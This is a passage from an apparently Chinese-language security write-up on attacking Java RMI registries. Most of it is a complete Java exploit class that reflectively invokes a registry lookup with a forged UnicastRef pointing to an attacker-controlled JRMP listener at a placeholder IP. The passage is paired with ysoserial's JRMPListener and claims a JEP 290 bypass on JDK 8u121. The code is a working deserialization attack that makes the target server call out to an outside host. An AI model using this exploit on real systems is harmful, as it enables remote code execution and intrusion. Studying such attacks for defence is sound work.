 ```java
package rmi;

import sun.rmi.registry.RegistryImpl_Stub;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import java.io.ObjectOutput;
import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.rmi.server.ObjID;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.util.Random;

public class JRMPClientPayload {

    private static Object getPayload() throws Exception {
        String host = "xxx.xxx.xxx.xxx";
        int port = 9999;
        ObjID id  = new ObjID(new Random().nextInt());
        TCPEndpoint te  = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        return ref;
    }

    private static final Operation[] operations = new Operation[]{
            new Operation("void bind(java.lang.String, java.rmi.Remote)"),
            new Operation("java.lang.String list()[]"),
            new Operation("java.rmi.Remote lookup(java.lang.String)"),
            new Operation("void rebind(java.lang.String, java.rmi.Remote)"),
            new Operation("void unbind(java.lang.String)")
    };

    public static void lookup(RegistryImpl_Stub registry) throws Exception {
        Class<?> clazz = Class.forName("java.rmi.server.RemoteObject");
        Field field = clazz.getDeclaredField("ref");
        field.setAccessible(true);
        UnicastRef ref = (UnicastRef) field.get(registry);
        RemoteCall var2 = ref.newCall(registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(getPayload());
        ref.invoke(var2);
    }

    public static void main(String[] args) throws Exception {
        RegistryImpl_Stub registry = (RegistryImpl_Stub) LocateRegistry.getRegistry("xxx.xxx.xxx.xxx", 1099);
        lookup(registry);
    }
}
```

然后直接用 Ysoserial 中 ysoserial.exploit.JRMPListener 这个 Payload 去伪造一个服务端，之后运行 JRMPClientPayload 如下-->

![alt text](image-413.png)

此时也成功触发 DNS 请求，如下-->

![alt text](image-394.png)

在 JDK 版本为 JDK 8u121 的情况下，成功的完成了一次对 Server 端的攻击，Success Bypass JEP 290！